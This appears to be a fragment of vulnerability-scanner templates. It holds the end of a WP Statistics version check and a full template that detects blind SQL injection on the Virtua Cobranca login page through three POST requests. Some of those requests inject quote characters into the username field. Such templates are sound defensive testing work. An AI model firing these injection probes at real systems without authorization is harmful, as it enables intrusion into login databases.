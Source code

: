 **Type - status**
- status
    1. 200

**Type - word**
- words
    1. WP Statistics
- part - body

**Type - dsl**
- dsl
    1. compare_versions(version, '< 13.0.8')
### Extractors

**Type - regex**
- name - version
- internal - True
- group - 1
- regex
    1. (?m)Stable tag: ([0-9.]+)

**Type - regex**
- group - 1
- regex
    1. (?m)Stable tag: ([0-9.]+)

---
# Virtua Software Cobranca <12R - Blind SQL Injection
## Description
- Virtua Cobranca before 12R allows blind SQL injection on the login page.

- severity - high
- tags - cve,cve2021,virtua,sqli
## Requests
### Step - 1
```
POST /controller/origemdb.php?idselorigem=ATIVOS HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

```
### Step - 2
```
POST /controller/login.php?acao=autenticar HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

idusuario='&idsenha=test&tipousr=Usuario

```
### Step - 3
```
POST /controller/login.php?acao=autenticar HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

idusuario=''&idsenha=a&tipousr=Usuario

```